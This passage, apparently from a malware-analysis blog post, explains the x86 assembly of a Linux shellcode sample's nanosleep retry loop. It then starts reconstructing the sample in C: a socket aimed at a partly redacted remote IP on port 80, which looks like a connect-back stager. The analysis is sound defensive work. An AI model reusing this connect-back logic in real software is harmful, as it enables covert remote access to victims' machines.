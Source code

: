Figure 13: nanosleep, mprotect, and read syscalls

If the esi register is not zero, the control jumps to “nanosleep" syscall, refer to Figure 13.

```wasm
push    0A2h
pop     eax
push    0
push    5
mov     ebx, esp        ; req
xor     ecx, ecx        ; rem
int     80h             ; LINUX - sys_nanosleep
test    eax, eax
jns     short loc_8048057
```

- `push 0xA2` will push the value **162** on the stack and then next instruction will pop it and load the value into *eax* register. The *eax* register holds the syscall number and **162** is the syscall number for “nanosleep".
- The two push instructions will push the values **0** and **5** on stack. These two values together make up an object and the size of the objet is 8 bytes.
- `mov ebx, esp` will  move the address in esp to *ebx*. Now *ebx* will point to the object that was pushed on the stack (values 0 and 5).
- `xor ecx, ecx` will set the ecx register to zero.
- `int 80h` will execute the “nanosleep" syscall. The first argument is in *ebx* (pointer to timespec object), the second argument (null a.k.a zero) is in ecx, refer to Figure 14.
- `test eax, eax` will check the result of the function and jump to exit function if it’s negative. If it’s not negative, then it will jump to `loc_8048057` , which is basically the first function call in code, refer to Figure 2.

![Figure 14: Synopsis of nanosleep function. ](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/Tmp_txt/Untitled%2014.png)

Figure 14: Synopsis of nanosleep function. 

So far, the code looks like this:

```c
int main() {
    int tries = 10;
    while (true) {
        int s = socket(AF_INET, SOCK_STREAM, 0); 

        sockaddr_in serverAddress;
        serverAddress.sin_family = AF_INET;
        serverAddress.sin_port = htons(80);

        if (inet_pton(AF_INET, "149.28.xxx.xxx", &serverAddress.sin_addr) <= 0) {
            printf(
                "\nInvalid address/ Address not supported \n");
            return -1;
```
